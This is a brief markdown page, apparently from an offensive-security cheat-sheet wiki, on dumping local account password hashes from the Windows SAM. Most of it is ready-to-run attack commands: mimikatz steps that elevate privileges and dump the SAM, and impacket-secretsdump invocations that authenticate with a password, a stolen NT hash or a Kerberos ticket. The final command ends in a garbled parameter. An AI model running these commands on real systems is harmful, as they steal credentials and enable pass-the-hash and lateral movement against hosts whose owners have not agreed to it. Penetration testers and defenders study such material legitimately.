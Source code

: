 ```yaml
---
label: Local SAM
---
```


# Credentials dump from local SAM

> **Requirements:**
>
> - You have to be a local administrator on the machine (or SYSTEM).

SAM dump will return all local users on the system along with their hashed passwords in NT hash form.

Windows:

```powershell
.\mimikatz.exe
> privilege::debug
> token::elevate
> lsadump::sam
```

Linux:

```bash
# Using password
impacket-secretsdump $domain/$user:$password@$host

# Using NT hash
impacket-secretsdump -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-secretsdump $hostname -k -no-pass -dc-ip $dc_ipyar
```
